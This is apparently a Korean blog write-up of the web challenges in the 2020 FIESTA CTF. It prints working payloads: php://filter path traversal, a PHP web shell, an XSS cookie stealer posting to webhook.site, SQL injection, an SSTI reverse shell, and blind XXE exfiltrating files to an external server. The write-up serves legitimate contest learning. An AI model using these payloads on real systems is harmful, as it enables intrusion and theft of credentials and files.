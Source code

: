 ```yaml
---
layout: post
title:  "2020 FIESTA(금융보안원) CTF Write up"
excerpt: "Hard life"
date:   2020-09-25
categories: [Web,ctf]
comments: true
---
```


오랜만에 CTF를 참여했다.  금융보안원에서 진행하는 [FIESTA 2020 : 금융보안 위협분석 대회]인데, 대회 랭킹으로는 3위를 취득했다.

N0Named팀에서 참가를 하였고, 팀명도 N0Named로 참가하였다. 

한 문제파일 및 url에 3가지 문제가 겹쳐있는 형식이었고, 모든 문제를 해결했는데, 웹만 wirte up을 작성하려고 한다.

![fiesta](/img/fiesta1.png)

<h3>0x0. YoUrAT
</h3>

Markdown형식으로 note에 글을 작성할 수 있다.  이를 이용해서 코드를 릭할 수 있다.

```markdown
![alt](php://filter/convert.base64-encode/resource=../../../../../../../etc/passwd)
```

이렇게 글을 작성하여 etc/passwd 코드를 릭해오는 것을 확인했다.

```markdown
![alt](php://filter/convert.base64-encode/resource=../../../../../../../flag)
```

이 페이로드로 최상위 디렉터리에서 플래그를 가져온게 1번 정답이었다.

그 다음 이를 이용하여 index.php의 코드를 릭해오고, 해석하면 write.php가 존재하는 것을 확인할 수 있다. 그런데 이 파일은 암호화 되어있어서 이를 복호화하기 위한 방법을 찾던 도중, 

```markdown
![alt](php://filter/convert.base64-encode/resource=/adm1nkyj_guard.so) 
```

이를 통해서 얻은 파일을 ida로 열어보니 암호화 코드가 있었고, 이를 이용하여 디크립트 코드를 작성했다.

```python
import base64
import re
text = """
write.php 코드
"""

check = re.findall("\$_[0-9a-z]*",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "$_"+xor2(i[2:].decode("hex"),"\x21"))

check = re.findall("\'_[0-9a-z]*\'",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "'"+xor2(i[2:-1].decode("hex"),"\x21")+"'")


check = re.findall("\"_[0-9a-z]*\"",text)
check.sort(reverse=True)
for i in check:
   text = text.replace(i, "\""+xor2(i[2:-1].decode("hex"),"\x21")+"\"")

check = re.findall("_[0-9a-z]*\(",text)
check.sort(reverse=True)
for i in check:
   try:
      text = text.replace(i, xor2(i[1:-1].decode("hex"),"\x21")+"(")
   except:
      pass

print text
```

이를 통하여 복호화를 진행하니 플래그가 나왔다.

```php
if ('thisisbackdoor' === 'thisisbackdoor') {
        if (file_get_contents('http://13.125.25.152/?id=' . $_SESSION['id'] . '&content=' . base64_encode($_POST['content']))) {
            $_go = 'FIESTA2020{';
            $_go .= 'wow_you_are_php_master_XD';
            $_go .= '}';
        }
    }
```

여기 플래그가 2번 플래그였다. 이후 저 링크에 들어가서 웹쉘을 이용하여 플래그를 취득했다.

```
http://13.125.25.152?id=kangsecu.php&content=<?php system($_GET['cmd']);?> 
```

를 이용하여 웹쉘을 업로드 후 

```
http://13.125.25.152/memos/kangsecu.php?cmd=/bin/sh;cd ../../../../../cat flag
```

이렇게 3번까지 해결했다.

<h3> 0x1. DarknetMarket</h3>

이 문제는 1번은 xss를 이용하여 어드민 쿠키를 취득하여 플래그를 읽는 것이었다.

```javascript
<script>document.location='https://webhook.site/cd701ca7-b14d-49dd-bc9c-5e188ed925a6/?P='+document.cookie</script>
```

이런 코드를 .phtml로 작성하고 업로드하여 진행하면 쿠키탈취가 가능하다. 이게 1번 플래그였다.

그 다음 1번에서 취득한 어드민 권한으로 접속하면 업로드 된 글들에 코멘트를 달 수 있는데, 여기서 uwsgi를 사용한 프론트는 아파치고, 백엔드는 플라스크라는게 생각나서 SSTI를 진행했다.

![ssti1](/img/ssti1.png)

를 이용하여 내부 디렉터리에 파일들을 출력하고 flag가 있길래 읽어왔다.
![ssti2](/img/ssti2.png)

이게 2번 정답이다. 3번은 여기서 SSTI를 이용하여 리버스쉘을 취득해서 nc에서 진행하였다.
![ssti3](/img/ssti3.png)

이를 이용하여 우리 서버에 리버스쉘을 연결하고 nc를 열어서 app.py코드를 확인하고 db정보를 취득했다.

그 결과 user:memo에 어드민의 글이 존재하는걸 확인해서  

```sql
mysql -u dev -p -e "select memo from DKNetM.user where memo like ‘%FIESTA%’"
```

이 페이로드를 이용하여 플래그를 출력한게 3번이었다.



<h3>0x2. Auditor</h3>

이번에는  sql인젝션 문제였다. 1번은 그냥 로그인 후  보드에서 download.php?idx= 를 넘겨주는 부분에서 타임베이스드 sql인젝션이 가능했다.  select flag from flag를 통하여 플래그를 취득했다.

2번은  1번과 마찬가지로 idx파라미터에서 union select 인젝션을 통해서 index.php코드를 릭하고 분석하여  파일이 업로드 되는 경로를 릭할 수 있었다.  그 이후 회원가입을 할 때, include 트리거를 했다.

```python
id=kcq&pw=kcq&name=kcq&email=kcq%40naver.com&phone= kcq &gender=1,1,0x2720756e696f6e2073656c65637420312c272f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f2e2e2f7661722f7777772f68746d6c2f66696c65732f6562646438303636383732396530616139636661343832336663313161366663393337323263323636636664616337336235623832653162383839312e6a7067272c312c3123)%23
```

여기서 업로드 된 파일은 이미 웹쉘의 형태로 다른 계정에서 업로드 해둔 것이다. 그리고 그 경로는 다음 코드를 통해서 확인할 수 있다.  

```php
function get_theme($pos){
        global $db_conn;

        if(is_login()){
            $query = "SELECT theme_idx FROM user WHERE id='{$_SESSION['id']}'";
            $result = mysqli_query($db_conn, $query);
            $row = mysqli_fetch_array($result);
            if($row){
                $_skin = $row['theme_idx'];
            }else{
                $_skin = 1;
            }
        }else{
            $_skin = 1;
        }
        $query = "SELECT * FROM theme WHERE theme_idx='{$_skin}' and position='{$pos}'";
        $result = mysqli_query($db_conn, $query);
        $row = mysqli_fetch_array($result);
        if (isset($row['path'])){
            return $row['path'];
        }
    }
```

이제 theme_idx를 조작하면 된다.  그 후 업로드 경로를 통해서 웹쉘을 실행 후 명령어를 전송하고 index.php코드를 확인하면 2번 플래그가 존재한다. 또한 업로드한 웹쉘을 이용하여 쉘을 따고 찾다보면 3번 플래그가 나온다.



<h3>0x3. PowerSehllCode</h3>

이 문제는 3번만 웹이 이용되었다. XXE기법을 이용하여 C2서버에서 플래그를 읽는 것이다. 처음에는 그냥 XXE를 시도했는데 내가 못한건지 잘 되지 않아서 바인드XXE를 진행하였다.

내 서버에 ext.dtd파일을 아래와 같이 생성했다.

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://개인서버/?p=%file;'>">
<!ENTITY var "%file;">
%eval;
%error;
```

그 후 문제 서버에 아래 페이로드를 전송하였다.

```xml
command=IRIMFxIi&sec=fiesta2020&data=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://개인서버/ext.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>
```

그러니 index.php의 코드가 내 서버로 긁어졌다. 이를 분석하고 서버 내에 . /_readme_only_admin.php 파일에 플래그가 존재하는 것을 알아냈다. 이제 추가로 XXE를 이용하여 이를 읽어왔다.

```php
<?php
$flags = shell_exec('flags2');
if ($_SERVER['REMOTE_ADDR']!='127.0.0.1') {
echo "you are not admin!!";
} else {
echo $flags;
}
?>
```

그런데 이를 127.0.0.1에서 접속하여 실행을 해야해서 다시 ext.dtd를 수정해서 xxe를 시도했다.

```xml-dtd
<!ENTITY % file SYSTEM "http://127.0.0.1/_readme_only_admin.php">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'https://webhook.site/aa/?p=%file;'>">
<!ENTITY var "%file;">
%eval;
%error;
```

이를 통해서 플래그를 취득했다.

<h3>0x4. Evidence</h3>

이 문제는 3번만 웹이 이용되었다. 암호화를 진행하는데 사용된 키를 c2서버 웹에서 받아와야 하는 문제였다.

http://15.165.143.41:9999 에 접속하면 dir들이 리스팅되는데, http://15.165.143.41:9999/webpanel/createkeys.php에 키를 요청했더니 에러가 발생하며 http://15.165.143.41:9999/webpanel/lib가 존재하는것을 알려줬다. 그 후, 

http://15.165.143.41:9999/webpanel/lib/Crypt/AES.php 에 접속하니 xml형태로 RSA키와 AES 암호문이 존재했다.


